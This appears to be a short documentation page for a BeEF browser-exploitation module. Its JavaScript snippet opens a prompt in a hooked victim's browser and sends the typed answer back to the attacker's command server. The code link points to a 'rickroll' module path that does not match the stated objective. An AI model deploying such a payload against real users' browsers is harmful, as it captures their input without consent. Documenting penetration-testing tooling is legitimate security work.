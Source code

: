 ## Summary

* **Objective**: Create a prompt dialog
* **Authors**: wade, bm
* **Browsers**: All

* [Code](https://github.com/beefproject/beef/tree/master/modules/browser/hooked_domain/rickroll)

## Internal Working


```js

var answer = prompt("<%== @question %>","")
beef.net.send('<%= @command_url %>', <%= @command_id %>, 'answer='+answer);

```

## Feedback

